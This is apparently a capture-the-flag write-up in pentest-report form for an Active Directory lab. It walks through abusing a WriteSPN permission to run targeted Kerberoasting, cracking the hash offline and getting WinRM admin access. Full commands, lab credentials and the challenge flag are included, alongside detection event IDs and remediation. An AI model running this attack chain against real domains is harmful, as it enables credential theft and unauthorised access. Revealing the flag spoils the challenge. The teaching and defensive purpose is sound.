


**Category:** DACL | **Difficulty:** Medium | **Flag:** <details><summary>reveal</summary><code>EPI{p1ck1n9_0u7_SPn5_w1th_c4r3}</code></details>

Working log: `challenges/service-changer.md`. Prerequisite finding:
[Dangerous Services](../dangerous_services/dangerous_services_tech.md)
(`g.clooney`'s SPN-based Kerberoasting), whose BloodHound data surfaced the
ACL lead exploited here. Background reading: `services/kerberos.md`.

## Executive Summary

Building on the prior compromise of `g.clooney` (see the Dangerous Services
finding), BloodHound graph data showed `g.clooney` held a `WriteSPN`
(write access to the `servicePrincipalName` attribute) ACE over a second,
otherwise-unremarkable account, `p.origan`. Unlike the prior finding,
`p.origan` had **no pre-existing SPN** and no password weakness directly
visible — the attack surface was manufactured entirely by the write
permission itself. Using `targetedKerberoast.py`, we registered a temporary
SPN on `p.origan`, requested a TGS for it, and recovered a crackable
`$krb5tgs$` hash — cracked offline to `dubiousBEHAVIOR8` in seconds. This
credential granted administrative WinRM access to the same host (SIRIUS,
`10.42.0.157`) compromised in the prior finding. This demonstrates that a
narrow, attribute-scoped write ACE is sufficient to convert any account into
a Kerberoastable target on demand, independent of that account's own
password hygiene or pre-existing SPN exposure — and that ACL-derived attack
paths compound directly on top of credential-based ones.

## Investigation & Technical Analysis

### Technical Incident Overview

`servicePrincipalName` is a writable LDAP attribute on a user object; any
principal holding `GenericWrite`, `GenericAll`, or a specific
`WriteProperty` ACE scoped to that attribute (commonly surfaced by
BloodHound as the **WriteSPN** edge) can add an arbitrary SPN value to the
target account **without needing any pre-existing elevated rights over that
account**. Once an SPN exists — even one the attacker registered moments
earlier — the target becomes Kerberoastable by the same mechanism described
in the Dangerous Services finding: a TGS-REQ for that SPN returns a service
ticket encrypted under the target's password hash, with no authorization
check performed at request time. This is a direct escalation pattern: an ACL
misconfiguration (an unnecessary write grant between two unrelated accounts)
is converted into a credential-theft primitive against an account that was
otherwise never exposed.

### Scope & Methodology

- **Target domain:** HOUNDLABS.EPI, DC01 at `10.42.0.42`.
- **Starting credential:** `g.clooney:CoffeeMug!1` (obtained via the prior
  Dangerous Services Kerberoasting finding — this challenge has no standalone
  entry point and depends on that prior compromise).
- **Tools used:** `targetedKerberoast.py` (automates WriteSPN discovery via
  LDAP ACL inspection, temporary SPN registration, TGS extraction, and
  cleanup in one pass), `faketime` for Kerberos clock-skew mitigation,
  `hashcat` (mode 13100) against `rockyou.txt`, `netexec`/`spray-all.sh` for
  the host×protocol access sweep, `evil-winrm` for the resulting shell.
- **Enumeration approach:** reused BloodHound graph data already collected
  for the prior finding (no fresh collection needed) — `g.clooney` → WriteSPN
  → `p.origan` was an already-known, unexploited edge at the time this
  challenge was opened.
- **Evidence sources:** command output reproduced below;
  `challenges/service-changer.md` (raw working log, same-day as the prior
  finding).

### Attack Chain & Detailed Findings

**1. Precondition — reused prior compromise.** `g.clooney:CoffeeMug!1`
validated before use:

```
netexec ldap 10.42.0.42 -u g.clooney -p 'CoffeeMug!1'
# still valid — no lab reset since the prior finding
```

**2. WriteSPN discovery and abuse (T1558.003 via ACL abuse).**
`targetedKerberoast.py` auto-discovers `WriteSPN` rights over the LDAP ACL
and performs the full add-SPN → request-TGS → remove-SPN cycle in one
invocation. The same Kerberos clock-skew precondition as the prior finding
applied (`KRB_AP_ERR_SKEW`, container ~7h behind DC01):

```
faketime '+7 hours' /opt/tools/targetedKerberoast/venv/bin/python3 \
  /opt/tools/targetedKerberoast/targetedKerberoast.py \
  -d HOUNDLABS.EPI -u g.clooney -p 'CoffeeMug!1' --dc-ip 10.42.0.42
```

(Invoked directly via the tool's venv interpreter rather than its shell
alias, since `faketime` execs bypass shell aliases.) The tool confirmed
`g.clooney` holds `WriteSPN` over `p.origan`, registered a temporary SPN,
requested a TGS for it, and printed a `$krb5tgs$23$*p.origan$...` hash.



*Note: this run also printed re-derived hashes for `g.clooney` (already
cracked, prior finding) and `b.pitt` — a third SPN-bearing account not yet
investigated; see the open lead noted in `challenges/dangerous-services.md`.*

**3. Offline cracking.**

```
hashcat -m 13100 -a 0 p_origan.hash rockyou.txt
hashcat -m 13100 p_origan.hash --show
# p.origan:dubiousBEHAVIOR8
```


Cracked in seconds — again a dictionary-word + suffix pattern, not a
random/long credential.

**4. Credential validation and access discovery.** As with the prior
finding, no group membership or local-admin ACE for `p.origan` was visible
via LDAP/BloodHound; a full host×protocol sweep was required:

```
scripts/spray-all.sh p.origan
# [+] WinRM (admin) hit on SIRIUS (10.42.0.157)
```


SIRIUS is the same host compromised via `g.clooney` in the prior finding,
and also via `d.folt` in a separate, unrelated DACL finding
(`instructions-unclear`) — suggesting SIRIUS is a deliberately shared
landing point for multiple independent weak/cracked accounts in this lab,
not a coincidence specific to this chain.

**5. Interactive access and flag retrieval.**

```
evil-winrm -i 10.42.0.157 -u p.origan -p 'dubiousBEHAVIOR8'
*Evil-WinRM* PS> dir C:\Users\p.origan\Desktop
# flag15.txt
*Evil-WinRM* PS> Get-Content C:\Users\p.origan\Desktop\flag15.txt
```



<details><summary>Flag (spoiler — click to reveal screenshot and value)</summary>


```
EPI{p1ck1n9_0u7_SPn5_w1th_c4r3}
```

</details>

**MITRE ATT&CK mapping:**

| Technique | ID | Step |
|---|---|---|
| Kerberoasting | T1558.003 | Steps 2–3 |
| Account Manipulation | T1098 | Step 2 (temporary SPN write) |
| Valid Accounts | T1078.002 | Steps 4–5 |
| Remote Services: Windows Remote Management | T1021.006 | Step 5 |

**Attacker operational security (would this have been flagged by a blue
team?):** This technique is intentionally self-cleaning, and that is the
whole OPSEC point of using `targetedKerberoast.py` over a manual
add-SPN/request/remove-SPN sequence: the tool adds the temporary SPN,
requests the ticket, and removes the SPN again automatically, minimizing
the window during which a directory-state monitor (watching for
unexpected `servicePrincipalName` changes) could catch the artifact.
Even so, two events are unavoidable and loggable: `5136` (directory
attribute modified) for the SPN add, and the follow-up `4769` for the
ticket request — correlating those two within a short window is the
specific, hard-to-evade signature of this exact technique, and no amount
of cleanup removes the log entries themselves (only the live directory
state). The one real OPSEC gap in this specific run is the one already
flagged in the Cleanup Note below: the temporary SPN's removal was never
**independently verified**, only assumed from the tool's own reported
success — a real attacker relying on that assumption risks leaving a
live artifact if the tool's cleanup silently failed.

### Root Cause Analysis

The root cause is an **unnecessary ACE**: `g.clooney` should not hold
`WriteSPN` (effectively `GenericWrite`/`WriteProperty` on
`servicePrincipalName`) over `p.origan` at all — there is no documented
business relationship between the two accounts that this write grant
services. The secondary enabling condition is identical to the prior
finding: any account that becomes Kerberoastable (whether by pre-existing
SPN or attacker-added SPN) is only as safe as its password's resistance to
offline cracking, and `p.origan`'s password was a dictionary-crackable
value. The combination — an unneeded write ACE plus a weak downstream
password — converts a configuration oversight into full credential theft.
Critically, `p.origan`'s own security posture (password strength audit,
SPN review) is insufficient as a standalone control, since the SPN that
made the account roastable didn't exist until the attacker created it.

### Indicators of Compromise

- **Source account (attacker-controlled):** `g.clooney`
- **Target/victim account:** `p.origan` (no SPN prior to this attack;
  `pwdNeverExpires` set)
- **ACE abused:** `WriteSPN` (`g.clooney` → `p.origan`, scoped to
  `servicePrincipalName`)
- **Compromised host:** SIRIUS, `10.42.0.157` (WinRM, admin-equivalent,
  shared landing point with two other unrelated findings)
- **Artifact:** transient `$krb5tgs$23$*p.origan$...` hash; a temporary SPN
  was registered on `p.origan` and removed by the tool — **not independently
  re-verified as fully cleaned up** (see note below)
- **Relevant Windows Event IDs (for detection, not observed in this lab):**
  `5136` (directory object attribute modified — `servicePrincipalName`
  changed) correlated with `4769` (Kerberos Service Ticket Requested) for
  the same object shortly after is the specific signature of this technique;
  `4769` alone with RC4 encryption is the generic Kerberoasting signal.
- **Credential:** `p.origan:dubiousBEHAVIOR8` (lab-state value — treat as
  ephemeral, not a durable IoC)

## Impact Analysis

- **Severity (illustrative CVSS v3.1 vector):**
  `AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` — **~9.1 (Critical)**. The `S:C`
  (scope changed) reflects that the attacker pivots from one compromised
  account's privilege into attribute-write control over a second,
  unrelated account — a cross-account escalation, not a self-contained
  weakness.
- **Blast radius:** This finding shows the compromise is not contained to
  the single account/host from the prior finding — any account reachable
  via a `WriteSPN`-equivalent ACE from an already-compromised principal is
  an immediate, on-demand target, regardless of that account's own
  password posture at the time of initial compromise. In a larger
  environment this pattern (foothold account → abusable ACE → new target)
  is a standard lateral-movement primitive and can chain arbitrarily deep.
- **Compounding factor:** This is the second finding in this engagement to
  land administrative access on SIRIUS via an independent credential path,
  reinforcing that SIRIUS itself (not just individual accounts) warrants
  dedicated hardening review.
- **Business/legal consequence:** Demonstrates that credential hygiene
  controls alone (password policy, MFA on direct logins) are insufficient
  without a parallel ACL hygiene program — an attacker with any single
  compromised account can manufacture new attack surface on unrelated
  accounts purely through directory permissions.

## Remediation & Recommendations

**Priority 1 — close the exposure:**
- Remove the `WriteSPN`/`GenericWrite` ACE held by `g.clooney` over
  `p.origan`; audit for any other unnecessary attribute-write grants between
  unrelated accounts domain-wide (BloodHound's `WriteSPN` edge query is
  sufficient to enumerate all instances).
- Rotate `p.origan`'s password to a long, randomly generated value.
- Confirm no leftover SPN remains on `p.origan`
  (`ldapsearch ... servicePrincipalName` or equivalent) — the automated tool
  used here is documented to self-clean, but this was not independently
  re-verified in this engagement.

**Priority 2 — detection:**
- Alert on Event ID `5136` (attribute modification) targeting
  `servicePrincipalName`, especially when followed within minutes by a
  `4769` for the same object and then a further `5136` removing the same
  attribute — the specific signature of add-SPN → Kerberoast → remove-SPN.
- Extend the Kerberoasting detection baseline from the prior finding (RC4
  `4769` volume per principal) to also flag `4769` events for SPNs that did
  not exist in the directory baseline at the start of the monitoring window.

**Priority 3 — structural:**
- Run a domain-wide BloodHound pass specifically for `WriteSPN` /
  `GenericWrite`-on-`servicePrincipalName` edges and treat every instance as
  requiring explicit business justification, the same way local-admin group
  membership is reviewed.
- Apply the principle that **any write-capable ACE from a lower-trust
  account onto a higher-trust or unrelated account is itself a privilege
  escalation path**, not merely a Kerberoasting precondition — this
  technique generalizes to other sensitive attributes beyond
  `servicePrincipalName` (e.g. `msDS-KeyCredentialLink` for Shadow
  Credentials) and should be covered by the same review.

## Appendices

- **A. Command transcript:** credential re-validation, `targetedKerberoast.py`
  run, `hashcat` crack, `spray-all.sh`/`evil-winrm` access — see Attack Chain
  section above for full commands and output.
- **B. Working log:** `challenges/service-changer.md` (full session
  narrative).
- **C. Prerequisite finding:**
  [Dangerous Services](../dangerous_services/dangerous_services_tech.md)
  (`g.clooney`'s own Kerberoasting compromise, which supplied the credential
  this finding depends on).
- **D. Screenshots:** terminal captures embedded inline above
  (`assets/01-targetedkerberoast-run.png` through
  `assets/05-flag-retrieved.png`, captured 2026-10-25 during a re-run of the
  chain). A diagram showing the ACE (`WriteSPN`) as the initial step feeding
  into the same AS-REQ→TGS-REQ→crack chain as the prerequisite finding is
  still TODO, to visually tie the two write-ups together.
- **E. Cleanup note:** the temporary SPN `targetedKerberoast.py` registered
  on `p.origan` was not independently re-verified as removed — worth a final
  `ldapsearch` check before engagement close-out.
